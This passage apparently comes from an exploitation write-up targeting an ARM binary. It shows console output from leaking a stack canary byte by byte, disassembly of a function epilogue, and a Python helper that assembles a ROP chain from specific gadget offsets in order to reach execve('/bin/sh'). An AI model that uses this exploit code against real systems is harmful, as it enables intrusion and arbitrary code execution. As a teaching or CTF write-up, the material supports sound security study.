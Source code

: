 Iterating using this method for the 4 bytes allows us to leak the canary:

{% highlight bash %}
~ $ py exploit.py
[*] Leaking canary
Found valid byte '0'
Found valid byte 'e6'
Found valid byte '74'
Found valid byte '60'
Canary is 0x6074e600
{% endhighlight %}


### Building the ROP sequence ###

Almost there! We have bypassed ASLR, PIC, NX and SSP. In x86, we would be just
done. ARM however uses one register (saved on stack) to save the return address
(called the Link Register) along with all the non-volatile registers that must
be preserved accross functions calls.

IDA shows that the `parse_request()` function finishes its execution by
restoring the context of the calling fubnction:
{% highlight text %}
.text:000016D0 loc_16D0
.text:000016D0 ADD     SP, SP, #0xC
.text:000016D4 ADD     SP, SP, #0x1000
.text:000016D8 LDMFD   SP!, {R4-R11,PC}
{% endhighlight %}

As we can see $pc is restored from the stack right after some registers. Since
everything is in the stack on which we have total control over, when we
call `execve()`, the execution flow would expected that the pointer to our
string to execute be in $r0 as per ARM calling convention. So we need an extra
gadgets to pop the `/bin/sh` address directly into $r0. `gef` module `ropgadget`
will work perfectly for this. Finding suitable gadgets is a little harder on ARM
than x86 as you find hardly instructions to pop directly into your argument
registers (for example `pop{r0}`, or `pop{r1}`) So you'll need to chain them
adequatly, bearing in mind which registers will be affected the gadgets (for
example `blx` will also affect the Link Register which may be indesirable).
Building the ROP sequence for this binary is not hard, so I built a helper
function:

{% highlight python %}
def rop_call(func, arg1=0, arg2=0, arg3=0):
     p = p32(exe+0x0c80)      # pop {r3, pc}
     p+= p32(exe+0x0c80)      # pop {r3, pc}
     p+= p32(exe+0x16d8)      # ldmfd sp!, {r4-r11,pc}
     p+= "AAAA"               # r4
     p+= "AAAA"               # r5
     p+= p32(arg1)            # r6
     p+= p32(arg2)            # r7
     p+= p32(arg3)            # r8
     p+= "AAAA"               # r9
     p+= "AAAA"               # r10
     p+= "AAAA"               # r11
     p+= p32(exe+0x1abc)      # mov r0, r6 ; mov r1, r7 ; mov r2, r8 ; add r4, r4, #1 ; blx r3
     p+= p32(func)
     p+= p32(libc+0x71bc4)    # pop {lr} ; bx r3
     p+= p32(libc+0xdd474)    # pop {r4, pc}
     p+= "AAAA"
     return p
{% endhighlight %}
